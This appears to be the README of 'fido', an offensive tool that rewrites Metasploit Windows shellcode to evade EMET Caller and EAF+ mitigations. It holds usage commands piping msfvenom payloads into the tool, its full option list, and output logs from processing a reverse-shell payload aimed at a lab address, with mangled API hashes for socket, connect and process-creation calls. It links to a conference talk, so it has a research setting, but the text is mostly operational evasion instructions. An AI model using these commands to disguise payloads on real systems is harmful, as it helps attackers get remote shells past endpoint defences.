 # fido
Teaching an old shellcode new tricks

Give fido.py a x86 (32 bit) windows shellcode and it will strip off Stephen Fewer's hash API stub and replace it 
with something that bypasses EMET Caller and EAF+ checks but keeps the actual API calls in use.

# WARNING: If the 2nd stage payload uses the hash api from metasploit that loads Win APIs from the Export Address Table and jmp's into them, EMET will catch it.

If the warning didn't make sense, you might want to walk away or read up: 

* REcon BR Slides: https://github.com/secretsquirrel/fido/blob/master/REconBR_2017.pdf
* Demo1 (Hash Mangling POC): https://youtu.be/p3vFRx5dur0
* Demo2 (Tor Exploit POC): https://youtu.be/oqHT6Ienudg

## Usage

Can take input from stdout and output to stdout:
```
msfvenom -p windows/exec CMD=calc EXITFUNC=thread | ~/github/fido/testharness.py -m -b Tcpview.exe -p ExternGPA -t win10  > test.bin
```

Can take input from cmdline (via -s).

Want win7-win10 compatibility?  Use the following command:

```
msfvenom -p windows/exec CMD=calc EXITFUNC=thread | ~/github/fido/fido.py -p ExternGPA -l api-ms-win-core-libraryloader-l1-1-0.dll -d kernel32.dll > test.bin
```

This will use GetProcAddress in api-ms-win-core-libraryloader-l1-1-0.dll import from the kernel32.dll loaded module. 


Help output:

```
[!] -s is required either from cmd line flag or stdin <cat code.bin> | ./fido.py
usage: use "fido.py --help" for more information

This code imports metasploit sourced x86 windows shellcode that employs
Stephen Fewers Hash API stub and replaces it to bypass EMET Caller/EAF checks
and other bolt on mitigations. Accepts msfvenom output from stdin or from disk.
Doesn't do logic checks on provided payload to ensure it is x86 (32bit) or for windows
OS (up to you to be correct)

positional arguments:
  infile
  outfile

optional arguments:
  -h, --help            show this help message and exit
  -b TARGETBINARY, --targetbinary TARGETBINARY
                        Binary that shellcode will be customized to (Optional)
  -t OS, --OSTarget OS  OS target for looking for target DLL Import Tables: winXP, win7, win8, winVista, win10
  -s CODE, --shellcode CODE
                        x86/x64 Windows Shellcode with Stephen Fewers Hash API prepended (from msfvenom) can be from stdin
  -d DLL, --DLLName DLL
                        If you know the DLL in the IAT you are targeting enter this, no need for OS flag.
  -l IMPORTNAME, --Import IMPORTNAME
                        For use with -d and ExternGPA (-p), specify either 'kernel32.dll' or
                        'api-ms-win-core-libraryloader' -- you need to know with import you are targeting.
                        To know, run without -d for a list of candidates. Default is kernel32.dll but not always right!

  -m, --mangle          Mangle metasploit hash apis from their original values (you want to do this)
  -o OUTPUT, --output OUTPUT
                        How you would like your output: [c], [p]ython, c[s]harp Default: stdout.
  -p PARSER_STUB, --parser_stub PARSER_STUB
                        By default this assumes that GetProcAddress (GPA) is in the targetbinary's
                        Import Address Table (IAT) if no targetbinary or DLL name is provided.
                        Four options:
                            GPA  - GPA is in targetbinary IAT (default)
                            LLAGPA - LoadlibraryA(LLA)/GPA is in the targetbinary IAT (smallest shellcode option)
                            ExternGPA -- need DLLName or targetbinary to use
                            ExternLLAGPA -- need DLLName or targetbinary to use
                            ExternGPAFC -- -d kernel32.dll -l kernelbase.dll  # only works on win8 - win10
                            OffsetGPA -- -b target.EXE # static offset to that version of software (target EXE)
                            ExternOffsetGPA -- -b target.DLL -d import_dll # static
  -n, --donotfail       Default: Fail if Stephen Fewers Hash API stub is not there, use -n to bypass
  -M MODE, --mode MODE ASM mode 32 or 64, usually automatic
```

## Other Examples:

 ### ExternGPAFC
Works on Win8-Win10 only.
```
 cat ~/github/metasploit-framework/reverse_shell_x64_8080_172.16.186.1.bin |  ./fido.py -b ~/github/the-backdoor-factory/whois64.exe -m -p ExternGPAFC -t win10 > test.bin
[*] Length of submitted payload: 0x1cc
[*] Stripping Stripping Fewers 64bit hash stub 
[*] Length of code after stripping: 258
[*] Disassembling payload
[*] Mangling kernel32.dll!LoadLibraryA call hash: 0x5df8d241
[*] Mangling ws2_32.dll!WSAStartup call hash: 0xe6fe222e
[*] Mangling ws2_32.dll!WSASocketA call hash: 0x16f19f04
[*] Mangling ws2_32.dll!connect call hash: 0x76223a2d
[*] Mangling kernel32.dll!CreateProcessA call hash: 0x6d6e1502
[*] Mangling kernel32.dll!WaitForSingleObject call hash: 0x44e7a13f
[*] Mangling kernel32.dll!ExitThread call hash: 0x5a4eb474
[*] Mangling kernel32.dll!GetVersion call hash: 0xf1669f77
[*] Mangling ntdll.dll!RtlExitUserThread call hash: 0x66b4939a
[*] Called APIs: ['kernel32.dll!LoadLibraryA', 'ws2_32.dll!WSAStartup', 'ws2_32.dll!WSASocketA', 'ws2_32.dll!connect', 'kernel32.dll!CreateProcessA', 'kernel32.dll!WaitForSingleObject', 'kernel32.dll!ExitThread', 'kernel32.dll!GetVersion', 'ntdll.dll!RtlExitUserThread']
[*] String Table: b'ExitThread\x00WSASocketA\x00CreateProcessA\x00kernel32\x00LoadLibraryA\x00RtlExitUserThread\x00ws2_32\x00connect\x00GetVersion\x00WaitForSingleObject\x00ntdll\x00WSAStartup\x00'
[*] Building lookup table
[*] Using ExternGPAFC from  hash: 0x0, import name: kernelbase.dll
[*] Assembling lookup table stub
[*] Payload complete
[*] Output size: 964

```


 ### ExternOffset
Uses the exact location of GetProcAddress Offset for a particular dll and import dll. In this case, kernel32_10.0.16237_32bit.dll is the target version bianry, and GPA exists in kernel32.dll via (minwin).

```
cat ~/github/metasploit-framework/reverse_shell_x64_8080_172.16.186.1.bin |  ./fido.py -b kernel32_10.0.16237_32bit.dll -d kernel32.dll -m -p ExternOffsetGPA -t win10 > test.bin                          
[*] Length of submitted payload: 0x1cc
[*] Stripping Stripping Fewers 64bit hash stub 
[*] Length of code after stripping: 258
[*] Disassembling payload
[*] Mangling kernel32.dll!LoadLibraryA call hash: 0x89d3d69b
[*] Mangling ws2_32.dll!WSAStartup call hash: 0x23b6665d
[*] Mangling ws2_32.dll!WSASocketA call hash: 0x7c77f885
[*] Mangling ws2_32.dll!connect call hash: 0x78e785f1
[*] Mangling kernel32.dll!CreateProcessA call hash: 0x53e02b59
[*] Mangling kernel32.dll!WaitForSingleObject call hash: 0xcb5b4068
[*] Mangling kernel32.dll!ExitThread call hash: 0xcd188037
[*] Mangling kernel32.dll!GetVersion call hash: 0x6a298791
[*] Mangling ntdll.dll!RtlExitUserThread call hash: 0x1b59416e
[*] Called APIs: ['kernel32.dll!LoadLibraryA', 'ws2_32.dll!WSAStartup', 'ws2_32.dll!WSASocketA', 'ws2_32.dll!connect', 'kernel32.dll!CreateProcessA', 'kernel32.dll!WaitForSingleObject', 'kernel32.dll!ExitThread', 'kernel32.dll!GetVersion', 'ntdll.dll!RtlExitUserThread']
[*] String Table: b'RtlExitUserThread\x00WSAStartup\x00CreateProcessA\x00WaitForSingleObject\x00WSASocketA\x00LoadLibraryA\x00ws2_32\x00GetVersion\x00ExitThread\x00ntdll\x00connect\x00kernel32\x00'
[*] Building lookup table
[*] Loading PE in pefile
[*] Parsing data directories
[*] Found API: loadlibrarya
[*] Found API: getprocaddress
[*] Both LLA/GPA APIs found!
[*] Using ExternOffsetGPA from kernel32.dll hash: 0x6a4abc5b, import name: main_module
[*] Parsing data directories...
[*] GPA offset: 0x710a8
[*] Assembling lookup table stub
[*] Payload complete
[*] Output size: 830
```


